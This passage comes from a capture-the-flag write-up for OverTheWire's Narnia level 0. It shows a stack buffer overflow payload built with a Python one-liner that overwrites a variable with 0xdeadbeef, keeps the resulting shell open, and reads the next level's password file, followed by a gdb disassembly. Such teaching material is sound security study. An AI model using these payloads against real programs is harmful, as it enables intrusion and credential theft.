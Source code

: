 ```sh
WAY OFF!!!!

narnia0@melinda:/narnia$ (python -c 'print "B"*24') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBBBBB
val: 0x42424242
WAY OFF!!!!
```

### Step 3: Crafting the Exploit

Now we know that `val` starts to overflow in the 20th byte. All we need to do is to add ```deadbeef``` in the last four bytes.

However, we need to write this in hexadecimal form:

```sh
narnia0@melinda:/narnia$ python -c'print "A"*20 + "\xef\xbe\xad\xde"'
AAAAAAAAAAAAAAAAAAAAﾭ
narnia0@melinda:/narnia$ (python -c'print "A"*20 + "\xef\xbe\xad\xde"') | ./narnia0 Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
```

Yay, the exploit worked!


### Step 4: Getting Access to the Shell


We were able to get access to our shell, but it closed too fast when the program execution ended.

We need to create a way to read the password before we lose the control to the shell. A good way is pipelining some command that waits for input, such as ```tail``` or ```cat```.

It turns out that only ```cat``` actually prints the output:

```sh
narnia0@melinda:/narnia$ (python -c'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
cat /etc/narnia_pass/narnia1
```
Done! We have completed the 0th level!


### Step 5: Debugging it!
Although this problem was easy enough so we didn't need to debug anything, it's a good call to understand the process while the challenge is easy:

```sh
narnia0@melinda:/narnia$ gdb ./narnia0
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
 0x080484c4 <+0>: push ebp
 0x080484c5 <+1>: mov ebp,esp
 0x080484c7 <+3>: and esp,0xfffffff0
 0x080484ca <+6>: sub esp,0x30
 0x080484cd <+9>: mov DWORD PTR [esp+0x2c],0x41414141
 0x080484d5 <+17>: mov DWORD PTR [esp],0x8048640
 0x080484dc <+24>: call 0x80483b0 <puts@plt>
 0x080484e1 <+29>: mov eax,0x8048673
 0x080484e6 <+34>: mov DWORD PTR [esp],eax
 0x080484e9 <+37>: call 0x80483a0 <printf@plt>
 0x080484ee <+42>: mov eax,0x8048689
 0x080484f3 <+47>: lea edx,[esp+0x18]
```

[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://singularity.miavonsteinkirch.com/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP